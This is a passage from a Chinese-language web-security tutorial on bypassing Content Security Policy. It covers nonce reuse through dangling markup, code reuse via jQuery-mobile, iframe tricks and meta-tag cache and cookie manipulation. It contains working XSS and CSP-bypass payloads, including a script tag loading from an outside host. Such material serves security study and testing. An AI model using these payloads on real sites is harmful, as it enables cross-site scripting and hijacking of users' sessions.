 ```html
<p>插入点</p>
<script id="aa" nonce="abc">document.write('CSP');</script>
```

可以插入

```html
<script src=//14.rs a="
```

这样会拼成一个新的script标签，其中的`src`可以自由设定

```html
<p><script src=//14.rs a="</p>
<script id="aa" nonce="abc">document.write('CSP');</script>
```

**4.代码重用**

假设页面中使用了`Jquery-mobile`库，并且`CSP`策略中包含"`script-src` '`unsafe-eval`' "或者"`script-src` 'strict-dynamic'"

那么下面的向量就可以绕过`CSP`：

```html
<div data-role=popup id='<script>alert(1)</script>'></div>
```

**5.`ifrmae`**

(1) 如果页面A中有`CSP`限制，但是页面B中没有，同时A和B同源，那么就可以在A页面中包含B页面来绕过`CSP`： 

```html
<iframe src="B"></iframe>
```

(2) 在Chrome下，`iframe`标签支持`csp`属性，这有时候可以用来绕过一些防御，

例如"http://xxx"页面有个`js`库会过滤`XSS`向量，我们就可以使用`csp`属性来禁掉这个`js`库

```html
<iframe csp="script-src 'unsafe-inline'" src="http://xxx"></iframe>
```

**6.`meta`标签**

 meta标签有一些不常用的功能有时候有奇效：
 meta可以控制缓存（在header没有设置的情况下），有时候可以用来绕过`CSP nonce` 

```html
<meta http-equiv="cache-control" content="public">
```

 meta可以设置Cookie（Firefox下），可以结合self-xss利用 

```html
<meta http-equiv="Set-Cookie" Content="cookievalue=xxx;expires=Wednesday,21-Oct-98 16:14:21 GMT; path=/">
```

